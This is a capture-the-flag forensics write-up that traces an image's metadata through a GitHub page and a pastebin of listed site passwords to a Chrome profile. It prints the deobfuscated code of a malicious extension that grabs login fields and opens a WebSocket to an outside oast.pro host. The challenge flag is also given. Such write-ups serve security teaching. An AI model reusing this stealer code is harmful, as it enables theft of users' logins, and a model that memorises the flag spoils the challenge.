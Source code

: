 ![date](https://img.shields.io/badge/date-09.10.2023-brightgreen.svg)  
![solved](https://img.shields.io/badge/solved-After%20the%20CTF-red.svg)   
![category](https://img.shields.io/badge/category-Forensics-blueviolet.svg)   
![value](https://img.shields.io/badge/value-300-blue.svg)
## Description
Is this a normal image??
## Challenge Files
- [chall.jpg](chall.jpg)

## Solution
Using exiftool, we get the image metadata. We find this [link](https://justuser-tmpusage.github.io/BHatCtf.github.io/) in the comment of the image.
Following it leads us to this page.
![](attachments/Pasted%20image%2020231011224857.png)
As we can see, we need more data. The link `justuser-tmpusage.github.io/BHatCtf.github.io/` is made available through github pages for a user called "justuser-tmpusage". Going through this user's github profile, we find this markdown file.

![](attachments/Pasted%20image%2020231011225034.png)
This leads us to a pastebin with the following content:
```
https://www.bankofamerica.com/ : Jacksmp : bukq8rS3TQj9hK!e(DELC4XnA5U#*G7V

https://www.facebook.com/ : Jacksmp : pmbYBIUC+We^%PgKNcH3*sQh9#AZD4$r

https://www.twitter.com/ : Jacksmp : LSBn+@bCQqPa2g6#*HjsmFpdrG8^7AWE

https://www.LinkedIn.com/ : Jacksmp : JM4xpgQ%6^NB2$3XHLukwRvSA*5b!D7)

https://www.Instagram.com/ : Jacksmp : Jp24A*@va&s5dc#nN^L$gmeGxFTbQEVH

https://mega.nz/file/1V0hQAzA : HxzUmwVKEdQqUmWSkm3kptBbv6aYUn6TKD9ViXW6XiQ
```
Through the mega link we get `Chrome.7z`. This is the directory of a user.
Going through the files and information of the user, we find nothing. However, looking at the name of the challenge "Extend", we can guess that it has something to do with extensions.
Inside the extensions folder, we find an extension called Blackhat DFIR, that contains an obfuscated js script.
Upon deobfuscating it, we get the this result:
```javascript
function disconnect() {
  if (webSocket) {
    webSocket.close()
  }
}
function keepAlive() {
  const interval = setInterval(() => {
    if (webSocket) {
      console.log('ping')
      webSocket.send('ping')
    } else {
      clearInterval(interval)
    }
  }, TEN_SECONDS_MS)
}
function domag() {
  var email = document.getElementsByName('email')
  var phone = document.getElementsByName('phone')
  var username = document.getElementsByName('username')
  var password = document.getElementsByName('password')
  if ((email || phone || username) && password) {
    console.log(document.location.host)
    while (true) {
      if (email) {
        connect(password, email, document.location.host)
      } else {
        if (phone) {
          connect(password, phone, document.location.host)
        } else {
          connect(password, username, document.location.host)
        }
      }
      keepAlive()
    }
  } else {
    console.log('Email not Found')
  }
}
chrome.action.onClicked.addListener((event) => {
  if (!event.url.includes('chrome://')) {
    chrome.scripting.executeScript({
      target: { tabId: event.id },
      function: domag,
    })
  }
})
function connect(
  part_3 = 'WYwIjYzMTM2sXWHFETGhkQ',
  part_2 = '1QjY0YGNxEDM1cTMxQ2YjV',
  part_1 = 'Qf2MjYwAzNyIDOjVTZkJTY'
) {
  scostr = part_1 + '---' + part_2 + '---' + part_3
  webSocket = new WebSocket('wss://' + scostr + '.oast.pro/')
  webSocket.onopen = (ws) => {
    chrome.action.setIcon({ path: 'icons/socket-active.png' })
  }
  webSocket.onmessage = (message) => {
    console.log(message.data)
  }
  webSocket.onclose = (ws) => {
    chrome.action.setIcon({ path: 'icons/socket-inactive.png' })
    console.log('websocket connection closed')
    webSocket = null
  }
}
```

The suspicious part here is the `connect` function, which has "base64" in it. The solution is that we need to reverse those base64 encoded strings.
![](attachments/Pasted%20image%2020231011225620.png)

## Flag
BHFLAGY{6133b20aeccd11750114f4b45a2de5c822700b36}